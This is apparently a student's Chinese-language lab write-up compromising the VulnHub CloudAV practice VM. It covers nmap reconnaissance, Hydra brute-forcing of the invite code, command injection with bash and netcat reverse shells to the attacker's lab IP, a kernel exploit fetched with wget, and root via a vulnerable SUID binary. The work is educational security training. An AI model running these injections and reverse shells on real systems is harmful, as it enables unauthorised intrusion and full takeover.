







# 网络攻防实战 Lab04 Writeup

!!! quote "使用的靶机为 VulnHub CloudAV"

## 渗透目的

取得目标靶机的 root 权限

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机（用于进行渗透攻击）与 Kioptix 靶机，网络采用 NAT 连接

`ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```yacas
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-22 14:03 CST
Nmap scan report for 10.0.2.1
Host is up (0.00053s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00017s latency).
MAC Address: 08:00:27:7C:03:0D (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.4
Host is up (0.0016s latency).
MAC Address: 08:00:27:B6:52:04 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.3
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.18 seconds
```

考虑靶机 ip 为 `10.0.2.4`，继续扫描端口 `nmap -sV -sC 10.0.2.4`，看看有哪些服务项

```yacas
> nmap -sV -sC 10.0.2.4
Starting Nmap 7.95 ( nmap.org ) at 2025-10-22 14:03 CST
Nmap scan report for 10.0.2.4
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (reset)

// SSH 服务
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:42:4b:7c:2a:06:0f:50:4b:32:cf:b8:31:e9:c4:f4 (RSA)
|   256 81:c7:60:0f:d7:1e:56:f7:a3:1e:9f:76:27:bd:31:27 (ECDSA)
|_  256 71:90:c3:26:ba:3b:e8:b3:53:7e:73:53:27:4d:6b:af (ED25519)

// HTTP 服务
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15rc1)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:B6:52:04 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.13 seconds
```

只有 SSH 和 HTTP 服务，同时确定靶机操作系统为 `Ubuntu`

---

### Getshell 尝试



一个输入邀请码的界面，随手试了一下 password 就登录成功了（？）

（试了一下 SQL 注入也可以绕过密码）

出于对弱密码的尊重，对邀请码采用 Hydra 进行爆破。

BurpSuite 抓包发现为 http-post 请求，Request body parameters 为 `password=114`，输入错误的邀请码返回 `WRONG INFORMATION`，并且表单的 HTTP 参数为 `<form action="/login" method="POST">`，据此进行爆破：

```yacas
> hydra -l "" -P /usr/share/wordlists/nmap.lst 10.0.2.4 -s 8080 http-post-form "/login:password=^PASS^:WRONG INFORMATION" -f

Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-22 14:32:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5007 login tries (l:1/p:5007), ~313 tries per task
[DATA] attacking http-post-form://10.0.2.4:8080/login:password=^PASS^:WRONG INFORMATION
[8080][http-post-form] host: 10.0.2.4   password: password
[STATUS] attack finished for 10.0.2.4 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-22 14:32:29
```

密码确实为 `password`（注意如果采用并行化爆破可能会把 http 服务打下线）

登录后是这样的画面：



File Name 填了一个 `cat`，Scan 一下试试



猜测有命令注入，试试 `cat | ls` 



设反弹 Shell：`cat | bash -i >& /dev/tcp/10.0.2.3/1234 0>&1`

发现这个不行，又换了一个 `hello | echo 'bash -i >& /dev/tcp/10.0.2.3/1234 0>&1' | bash`

```yacas
> nc -lvp 1234
listening on [any] 1234 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [10.0.2.3] from bogon [10.0.2.4] 40794
bash: cannot set terminal process group (733): Inappropriate ioctl for device
bash: no job control in this shell
scanner@cloudav:~/cloudav_app$
```

成功 Getshell

### 提权尝试

#### 内核提权

先无脑尝试内核提权，确认一下内核版本

```yacas
scanner@cloudav:~/cloudav_app$ uname -a 
uname -a
Linux cloudav 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

scanner@cloudav:~/cloudav_app$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.1 LTS
Release:        18.04
Codename:       bionic
```

照例进行 `searchsploit`：

```yacas
> searchsploit Linux 4.15
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
Linux < 4.14.103 / < 4.19.25 - Out-of-Bounds Read and Write i | linux/dos/46477.txt
Linux < 4.16.9 / < 4.14.41 - 4-byte Infoleak via Uninitialize | linux/dos/44641.c
Linux < 4.20.14 - Virtual Address 0 is Mappable via Privilege | linux/dos/46502.txt
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privileg | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / W | linux/local/9479.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escala | linux/local/50135.c
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Pr | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47167.sh
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation    | linux/local/41886.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak      | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Cor | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                | linux/dos/44579.c
```

选择 `50135.c` ，发现失败

```yacas
scanner@cloudav:~/cloudav_app$ cd /tmp                   
cd /tmp
scanner@cloudav:/tmp$ wget 10.0.2.3:1145/50135.c
wget 10.0.2.3:1145/50135.c
--2025-10-22 06:58:53--  http://10.0.2.3:1145/50135.c
Connecting to 10.0.2.3:1145... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23023 (22K) [text/x-csrc]
Saving to: ‘50135.c’

     0K .......... .......... ..                              100%  239K=0.09s

2025-10-22 06:58:53 (239 KB/s) - ‘50135.c’ saved [23023/23023]

scanner@cloudav:/tmp$ gcc 50135.c -o exploit                                                                                      
gcc 50135.c -o exploit
scanner@cloudav:/tmp$ ./exploit
./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[-] Error could not corrupt any primary message.
scanner@cloudav:/tmp$ 
```

选择 `47165.sh`，需要下载一些子文件，一并上传，运行：



#### suid 提权

扫一遍 suid 文件

```yacas
scanner@cloudav:~/cloudav_app$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/at
/usr/bin/sudo
/home/scanner/update_cloudav
/snap/core/17247/bin/mount
/snap/core/17247/bin/ping
/snap/core/17247/bin/ping6
/snap/core/17247/bin/su
/snap/core/17247/bin/umount
/snap/core/17247/usr/bin/chfn
/snap/core/17247/usr/bin/chsh
/snap/core/17247/usr/bin/gpasswd
/snap/core/17247/usr/bin/newgrp
/snap/core/17247/usr/bin/passwd
/snap/core/17247/usr/bin/sudo
/snap/core/17247/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/17247/usr/lib/openssh/ssh-keysign
/snap/core/17247/usr/lib/snapd/snap-confine
/snap/core/17247/usr/sbin/pppd
/bin/mount
/bin/su
/bin/ping
/bin/fusermount
/bin/umount
```

发现一个最可疑的文件 `/home/scanner/update_cloudav`，看看所在的文件夹内容，发现贴心的提供了源文件：

```c
scanner@cloudav:~/cloudav_app$ cd /home/scanner               
cd /home/scanner
scanner@cloudav:~$ ls
ls
cloudav_app
update_cloudav
update_cloudav.c
scanner@cloudav:~$ cat update_cloudav.c
cat update_cloudav.c

#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}
```

这个程序直接以 root 权限处理用户输入，直接运行：`./update_cloudav "/bin/sh"` 

```yacas
scanner@cloudav:~$ ./update_cloudav "/bin/sh"
./update_cloudav "/bin/sh"
ERROR: Problem with internal logger (UpdateLogFile = /var/log/clamav/freshclam.log).
ERROR: initialize: libfreshclam init failed.
ERROR: Initialization error!
ERROR: /var/log/clamav/freshclam.log is locked by another process
```

之后才发现是因为开了两个 `ncat` 导致 `freshclam.log` 被锁了，解决问题后使用下面的 `ncat` 串连

`./update_cloudav "helloworld | nc 10.0.2.3 114 | /bin/bash | nc 10.0.2.3 514"` 

获得了 root 权限



---

## 渗透结果

成功获取了 root 权限并且修改了 root 密码，登录靶机界面，输入新密码进入 root 账号：



---

## 问题分析/启示

1. `./update_cloudav` 在第一次尝试运行时遇到了日志文件被另一个进程锁定的问题

   排查后发现是上一次的 ncat 进程没有用 Ctrl + C 终止，而是用 Ctrl + Z 挂起，需要先停止上一个进程

   -- `ERROR: /var/log/clamav/freshclam.log is locked by another process`


---

## 其他

​	用时2h
